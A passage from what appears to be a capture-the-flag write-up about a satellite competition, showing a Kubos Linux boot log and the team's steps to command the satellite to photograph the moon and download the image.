Starting monitor-service: 
OK
Starting initpayload: 
Pre-compiling script
Listing '/home/microsd/mission-apps/leon3_i2c/'...
Compiling '/home/microsd/mission-apps/leon3_i2c/leon3_i2c.py'...
initchallenge Initializing system. This will only run once.
initchallenge Registering app: leon3_i2c
initchallenge App leon3_i2c registered: True
initchallenge Creating mode: nominal.
initchallenge Mode created: True
initchallenge Creating mode nominOK
 New Monit id: 739f5edeb1505d6d22285c0834cbb364
 Stored in '/root/.monit.id'
Starting Monit 5.25.2 daemon with http interface at [*]:7000
'Kubos' Monit 5.25.2 started

Welcome to Kubos Linux
Kubos login: 
```

And then the `ALIVE_STATUS` of the `PL_IF` telemetry switched to `1`.
The payload had been repaired. Success!

To verify that the camera was finally available, we took a picture.


## Challenge 5: Taking a picture

In order to take a picture from the satellite, we needed to:

* Step 1: take a photo using the `PL_IF TAKE_IMG` command.
* Step 2: send the `PL_IF DLINK_IMG` command to transmit the picture from the Raspberry Pi to the C&DH Flight Software board.
* Step 3: send the `CF PLAYBACK_FILE` command to ask the satellite to transmit the picture as telemetry packets.
  Re-assemble these packets to obtain a `.png` image.

We used custom tooling developed using Scapy for most communications with the satellite, which was more convenient than manually clicking in the Cosmos GUI over a VNC screen share.

To take a picture of the moon specifically, we had to use the ADCS to point the camera towards it. Following the release of the solution for Challenge 2 by the organizers, we had identified through a file named `es_adcs_tbl_cam.json` that the camera was likely on the X- panel. It means that to align the camera outwards to take a photo of the moon we had to issue a "follow the sun" ADCS command with a 180 degrees yaw angle.
While we issued such a command, we could not know if it was taken into account since the telemetry output was not available in the last 15 minutes of the competition. Based on the photo we retrieved, it seems that it actually worked!

As we only had less than a full rotation left before the challenge ended, we resorted to taking several pictures hoping that the moon would feature on one of them...
Alas, we could only retrieve two pictures before the end of the competition.
The second one featured the "sun"!


We had taken two other pictures, that we would have downloaded should we have had a few more minutes.

After the competition, the organizers recovered the third image we had taken but that we were a few minutes away to finish downloading as the network link went down.
This image was featuring the moon!!! :)


